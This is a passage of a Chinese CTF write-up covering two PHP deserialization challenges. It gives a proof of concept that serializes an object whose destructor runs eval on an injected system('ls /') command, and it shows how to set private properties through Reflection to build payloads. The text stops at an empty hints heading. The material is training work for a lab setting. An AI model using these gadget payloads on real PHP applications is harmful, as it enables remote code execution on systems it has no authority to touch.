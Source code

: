 
## [PHP反序列化] 17 第十七章 星骸迷阵·神念重构

简单的反序列化，注意 urlencode。如果你看不懂，请学习：https://hello-ctf.com/hc-web/php_unser_base/

PoC:

```php
<?php

class A
{
    public $a;
    function __destruct()
    {
        eval($this->a);
    }
}

$pwn = new A();
$pwn->a = "system('ls /');";
echo urlencode(serialize($pwn));
```

---

## [PHP反序列化] 18 第十八章 万卷诡阁·功法连环

先了解一下怎么构造含有 private 属性的类的反序列化 payload。

方法 A — Reflection（推荐）

要点：创建对象（可跳过构造），用 `ReflectionProperty::setAccessible(true)` 写入私有属性，然后 `serialize()`。

```php
<?php
class PersonA { private $name; function __wakeup(){} }
class PersonB { public $name; function work(){} }

// 创建 obj，注入私有属性，序列化
$rc = new ReflectionClass('PersonA');
$obj = $rc->newInstanceWithoutConstructor();

$prop = $rc->getProperty('name');
$prop->setAccessible(true);

$b = new PersonB(); $b->name = 'payload';
$prop->setValue($obj, $b);

echo serialize($obj), PHP_EOL;

```

要点提示：
